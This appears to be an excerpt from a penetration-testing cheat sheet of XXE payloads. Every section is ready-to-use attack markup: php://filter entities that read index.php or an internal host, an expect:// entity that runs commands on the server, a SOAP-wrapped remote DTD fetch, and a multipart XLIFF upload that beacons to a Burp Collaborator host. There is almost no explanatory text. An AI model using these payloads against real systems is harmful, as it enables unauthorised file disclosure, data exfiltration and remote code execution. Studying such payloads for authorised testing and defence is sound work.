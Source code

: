### Base64

**Extract** _**index.php**_

```markup
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

#### **Extract external resource**

```markup
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3"> ]>
```

### Remote code execution

**If PHP "expect" module is loaded**

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

## **SOAP - XEE**

```markup
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

## XLIFF - XXE

This section was taken from [https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe](https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe)\
According to the [Wikipedia](https://en.wikipedia.org/wiki/XLIFF):

> XLIFF (XML Localization Interchange File Format) is an XML-based bitext format created to standardize the way localizable data are passed between and among tools during a localization process and a common format for CAT tool exchange.

### Blind request

```markup
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
